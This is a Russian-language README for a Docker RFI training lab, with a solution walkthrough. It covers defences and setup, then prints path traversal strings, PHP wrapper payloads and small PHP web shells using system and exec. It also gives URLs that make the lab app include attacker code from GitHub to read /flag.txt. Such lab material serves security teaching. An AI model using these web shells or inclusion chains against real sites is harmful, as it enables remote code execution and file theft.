 ## Описание уязвимости
Данная уязвимость позволяет включать в ответ на запрос удалённые файлы(а в некоторых случаях даже их исполнять). Иногда, если удалённые файлы включаются в ответ на запрос RFI может легко перетекать в SSRF.
Данная уязвимость тесно связана с LFI. В большинстве случаев RFI возможна тогда и только тогда, когда возможна и LFI.
Функции в разных языках, которые могут приводить к RFI:
- **PHP**: `include()`/`include_once()`, `file_get_contents()`
- **Java**: `import`
- **.NET**: `@Html.RemotePartial()`, `include`
## Способы защиты
В большинстве случаев, необходимо убрать у пользователей возможность взаимодействовать с файловой системой, но если этого сделать нельзя, то тогда можно попытаться использовать следующие механизмы защиты. 
- Использовать те же самые методы защиты, что и при LFI, так как уже было сказано, что они тесно связаны
- Необходимо выставлять значение переменных allow_url_fopen  или allow_url_include на off в файле php.ini
- Использование WAF
- Использование white листов
- Проверки на содержимое GET-параметров, используемых в уязвимых функциях
## Запуск приложения
Для запуска приложения необходимо:
- скачать репозиторий
- в файле \/etc\/hosts прописать: `10.90.0.110 lang.local`, где вместо `10.90.0.110` должно быть записано содержимое переменной NGINX_IP из файла .env
- зайти в директорию с файлом docker-compose.yaml
- в случае, если необходимо поменять значения переменных окружений в файле .env(данный файл содержит переменные NET_IP, FPM_IP, NGINX_IP, FLAG, где NET_IP задаёт значение IP адреса сети remote-file-inclusion_mynetwork, FPM_IP задаёт IP-адрес контейнера c php-fpm, NGINX_IP задаёт IP адрес контейнера с nginx, а FLAG задаёт флаг; в случае, если на устройстве есть сетевой интерфейс с IP-адресом из файла .env имеет смысл поменять адреса в соответствие с RFC 791)
- в случае, если не нужно менять параметры, зайти из терминала в директорию с конфигурационными файлами и прописать:
```shell
docker-compose up
```
- для завершения необходимо в терминале в той же папке, что и docker-compose.yaml прописать docker-compose down
- в случае, если при новом запуске выводится ошибка подобная `ERROR: Network "remote-file-inclusion_mynetwork" needs to be recreated - IPAM option`, необходимо прописать: `docker network rm remote-file-inclusion_mynetwork` и после этого перейти к шагу 4
- можно также менять значения переменных файле php.ini(например прописав `disable_functions = exec,passthru,system`)
## Описание уязвимости в приложении
Необходимо получить доступ к файлу \/flag.txt.
В данном приложении есть возможность выбора языка, на котором отобразится текст страницы. Реализована данная возможность с помощью передачи GET параметра lang в HTTP запросе к index.php. У пользователя есть возможность обращаться только к файлам index.php и style.css.
Приложение получает GET параметр, обрабатывая его при этом(происходит циклическая проверка на наличие ..\/, различных обёрток и схем(с помощью регулярных выражений)). После этого происходит включение файла, находящегося по пути из переменной $path_to_lang_file:
```php
<?php
	include $path_to_lang_file;
	echo $text;
?>
```
Последовательность действий:
- проверить на наличие уязвимостей типа LFI, path traversal.
- попытаться включить какую-то страницу, например `http://lang.local/`
- создать файл с каким-то php кодом и расположить его на сервере с белым IP, либо создать файл на github
- в качестве значения GET параметра выставить ссылку на этот файл

## Решение
Первые шаги почти такие же, как и в LFI стенде:
В качестве значений GET параметров используем следующие значения:
```http
../../../../../../../../../../../../etc/passwd
..././..././..././..././..././..././..././etc/passwd
....//....//....//....//....//....//....//....//etc/passwd
%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fetc%2Fpasswd
%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd
```
В результате будет выводиться следующее:
![](./img/photo_5273909760485354624_y.jpg)
Это может навести на мысль о том, что значение заголовка фильтруется.
Можно использовать php обёртки и различные схемы для получения index.php в base64:
`php://filter/convert.base64-encode/resource=./index.php`, `expect://id`, `data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`.
![](./img/photo_5273909760485354625_y.jpg)
Но к сожалению обёртки не работают.
Проверим что произойдёт, если в качестве значения GET-параметра передать следующую ссылку:
```http
http://lang.local
```
![](./img/photo_5273909760485354626_y.jpg)
Видно что в ответ на запрос, вернулся страница в странице. Это явно намекает о наличии RFI.
Для эксплуатации попытаемся использовать обычный payload с функцией `system`.
```php
<?php system($_GET["cmd"]);?>
```
Данный файл находится по следующей ссылке:
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/system_payload.php
```
В конечном итоге будем использовать такой url, который необходимо подставить в поисковую строку:
```http
http://lang.local/?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/system_payload.php&cmd=ls ./
```
![](./img/photo_5273909760485354627_y.jpg)
Видим ошибку, которая связана с тем, что функция `system` запрещена для использования.
Следующее действие, которое можно сделать - это попытаться вытащить файл .\/index.php с помощью следующего payload:
```php
<?php
$content = file_get_contents($_GET['file']);
$base64Content = base64_encode($content);
echo $base64Content;
?>
```
Данный payload находится по следующей ссылке:
```http
https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php
```
Окончательный url для подстановки в поисковую строку:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php&file=./index.php
```
Получаем base64 закодированное содержимое .\/index.php:
![](./img/photo_5273909760485354628_y.jpg)
В результате декодирования получим:
![](./img/photo_5273909760485354629_y.jpg)
Это даёт нам подсказку на поиск какого-то файла в директории \/usr\/local\/etc\/php. Вероятней всего - это файл php.ini.
Подставим теперь в поисковую строку следующий URL:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/get_info.php&file=/usr/local/etc/php/php.ini
```
Получаем следующее содержимое:
![](./img/photo_5273909760485354630_y.jpg)
Так как ранее было показано, что функция `system` отключена, то имеет смысл посмотреть все отключенные функции в переменной `disable_functions`:
![](./img/photo_5273909760485354631_y.jpg)
Запрещены три функции, которые используются для исполнения консольных команд. Если поискать, то можно найти, что кроме этих трёх функций для  выполнения команд можно использовать команду `exec`.
![](./img/photo_5273909760485354632_y.jpg)
Будем использовать такой payload для того, чтобы получить доступ к флагу:
```php
<?php
$output = null;
exec($_GET['cmd'], $output);
print_r($output);
?>
```
Конечный url для поисковой строки выглядит так:
```http
http://lang.local/index.php?lang=https://raw.githubusercontent.com/Truncheon-eng/Remote-File-Inclusion/refs/heads/main/payloads/exfil_flag.php&cmd=cat /flag.txt
```
Получаем флаг:
![](./img/photo_5273909760485354633_y.jpg)
Второй payload можно использовать в том случае, если `system`и остальные похожие функции отключены в php.ini.
[LFI_with_sess_poisoning](https://github.com/Truncheon-eng/LFI_with_sess_poisoning)

